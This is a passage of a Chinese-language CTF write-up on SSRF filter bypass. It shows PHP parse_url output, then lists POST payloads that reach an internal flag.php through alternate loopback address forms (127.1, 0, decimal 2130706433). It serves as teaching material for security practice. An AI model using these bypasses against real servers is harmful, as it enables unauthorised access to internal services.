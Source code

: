 ```php
?>
```

输出：

```php
array(8) {
  ["scheme"]=>
  string(4) "http"
  ["host"]=>
  string(8) "hostname"
  ["port"]=>
  int(9090)
  ["user"]=>
  string(8) "username"
  ["pass"]=>
  string(8) "password"
  ["path"]=>
  string(5) "/path"
  ["query"]=>
  string(9) "arg=value"
  ["fragment"]=>
  string(6) "anchor"
}
string(4) "http"
string(8) "username"
string(8) "password"
string(8) "hostname"
int(9090)
string(5) "/path"
string(9) "arg=value"
string(6) "anchor"
```



这一题的初衷可能是想要过滤 localhost 和 127.0.0.1  ，但是没有写过滤哪个字符串，所以我们之间用上题解法即可。

由于题目规定只能使用http/https 协议，所以我们不能继续使用file协议了

解法：

一、我们可以将127.0.0.1 进行进制转化，或者将localhost进行大小写绕过

[ip地址转换](https://tool.520101.com/wangluo/jinzhizhuanhuan/)

二、我们可以将127.0.0.1写成以下形式：

> 127.1会被解析成127.0.0.1，也就意味着为零可缺省
> 在Linux中，0也会被解析成127.0.0.1
> 127.0.0.0/8是一个环回地址网段，从**127.0.0.1 ~ 127.255.255.254都表示localhost**

```php
[POST]payload：url=http://127.1/flag.php
[POST]payload：url=http://0/flag.php
[POST]payload：url=http://127.255.255.254/flag.php
[POST]payload：url=http://2130706433/flag.php
还可以使用  句号
```
